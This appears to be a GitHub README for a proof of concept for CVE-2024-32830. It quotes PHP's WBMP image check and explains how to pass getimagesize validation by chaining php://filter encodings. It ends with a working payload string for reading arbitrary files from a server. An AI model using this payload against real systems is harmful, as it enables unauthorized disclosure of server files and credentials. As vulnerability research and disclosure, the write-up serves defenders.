 # CVE-2024-32830-poc
PoC code to download files with CVE-2024-32830

## `getimagesize` bypass

To bypass the `getimagesize` restriction, we can create a simple `image/vnd.wap.wbmp` image for PHP.

The check for the filetype is very simple:
```c
// https://github.com/php/php-src/blob/0029d2b08bbd3cb3aa293d9c8d55bf31faa9e203/ext/standard/image.c#L917
static int php_get_wbmp(php_stream *stream, struct gfxinfo **result, int check)
{
	int i, width = 0, height = 0;

	if (php_stream_rewind(stream)) {
		return 0;
	}

	/* get type */
	if (php_stream_getc(stream) != 0) {
		return 0;
	}

	/* skip header */
	do {
		i = php_stream_getc(stream);
		if (i < 0) {
			return 0;
		}
	} while (i & 0x80);

	/* get width */
	do {
		i = php_stream_getc(stream);
		if (i < 0) {
			return 0;
		}
		width = (width << 7) | (i & 0x7f);
		/* maximum valid width for wbmp (although 127 may be a more accurate one) */
		if (width > 2048) {
			return 0;
		}
	} while (i & 0x80);

	/* get height */
	do {
		i = php_stream_getc(stream);
		if (i < 0) {
			return 0;
		}
		height = (height << 7) | (i & 0x7f);
		/* maximum valid height for wbmp (although 127 may be a more accurate one) */
		if (height > 2048) {
			return 0;
		}
	} while (i & 0x80);

	if (!height || !width) {
		return 0;
	}

	if (!check) {
		(*result)->width = width;
		(*result)->height = height;
	}

	return IMAGE_FILETYPE_WBMP;
}
```

The simplest way to construct a valid image would be with two NUL bytes, followed by two `< 0x80` bytes for the width and height.

It's possible to do this for any file, using `php://filter`.

The first layer would need to apply a base64 encoding to ensure that all the data is ASCII, thus satisfying the `< 0x80` constraint.

The second filter would need to add the first two NUL bytes. This is possible by forcing a conversion from UTF-16BE to UTF-32BE. This will force iconv to interpret each chunk of two bytes as a valid UTF-16BE character, and then prepend two NUL bytes before it to make it UTF-32BE. The actual filter to use is: `convert.iconv.utf-16be.utf-32be`.

Our final payload is `php://filter/convert.base64-encode/convert.iconv.utf-16be.utf-32be/resource=<file here>`.
